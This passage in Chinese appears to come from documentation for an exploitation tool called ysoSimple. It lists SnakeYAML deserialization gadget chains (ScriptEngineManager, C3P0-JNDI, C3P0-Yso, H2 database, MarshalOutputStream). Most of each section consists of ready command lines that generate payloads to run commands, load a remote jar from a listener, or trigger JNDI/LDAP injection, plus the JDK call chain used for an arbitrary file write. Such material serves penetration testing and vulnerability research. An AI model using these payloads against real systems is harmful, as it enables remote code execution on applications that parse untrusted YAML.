工具：args参数中写加载jar包的地址。如果是远程加载jar包可以使用ThirdPartyAttack模块生成jarPayload然后开启监听，进行漏洞利用。如果是不出网环境想本地加载jar包，可以使用SnakeYaml的MarshalOutputStream链写文件然后在本地加载进行漏洞利用。

```java
-m SnakeYamlAttack -g ScriptEngineManager -a "http://127.0.0.1:2333/yaml-payload.jar"
    
-m SnakeYamlAttack -g ScriptEngineManager -a "file:///success.jar"
```

使用ThirdPartyAttack模块生成jarPayload：

```java
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -jarPayload "ScriptEngineFactory" -writeToFile "/tmp/"
```

### C3P0-JNDI利用链

描述：SnakeYaml反序列化利用JndiRefForwardingDataSource类触发jndi注入

工具：args参数中写jndi的连接串

```java
-m SnakeYamlAttack -g C3P0_JNDI -a "ldap://127.0.0.1:1389/"
```

### C3P0-Yso利用链

描述：在C3P0依赖中的com.mchange.v2.c3p0.WrapperConnectionPoolDataSource类在反序列化过程中会对userOverridesAsString属性值进行Java反序列化

工具：args参数中第一个值是反序列化利用链，后续跟利用链的漏洞利用参数

```java
-m SnakeYamlAttack -g C3P0_Yso -a "FastJson1:Templateslmpl:auto_cmd:calc"
```

###  H2-DataBase利用链

描述：org.h2.jdbc.JdbcConnection的实例化方法接受jdbc url，然后在其实例化时会触发jdbc url连接，snakeyaml可利用其实例化进行攻击

工具：因为不同版本的H2-database数据库的org.h2.jdbc.JdbcConnection实例化方法参数不同，所以ysoSimple会生成俩条利用链

```java
-m SnakeYamlAttack -g H2DataBase -a "H2CreateAlias:auto_cmd:calc"
    
-m SnakeYamlAttack -g H2DataBase -a "H2CreateAlias:springframework_echo:id"
```

###  MarshalOutputStream 利用链

描述：该利用链学习参考：[从HertzBeat聊聊SnakeYAML反序列化](https://mp.weixin.qq.com/s/m8lQmnBUNRYuN1Mv4J5_ng)。MarshalOutputStream 利用链是条JDK写文件的利用链：

- 该Payload可以分为4层：三个构造方法和 java.util.zip.Inflater 的 setInput 方法
- `!!java.io.File`写入文件的目录必须要存在
- `!!binary`的值是经过Inflater压缩后Base64编码后的内容

```
sun.rmi.server.MarshalOutputStream(OutputStream var1)
java.util.zip.InflaterOutputStream(OutputStream out, Inflater infl, int bufLen)
	java.io.FileOutputStream(File file, boolean append)
	java.util.zip.Inflater().setInput(byte[] b, int off, int len)
```
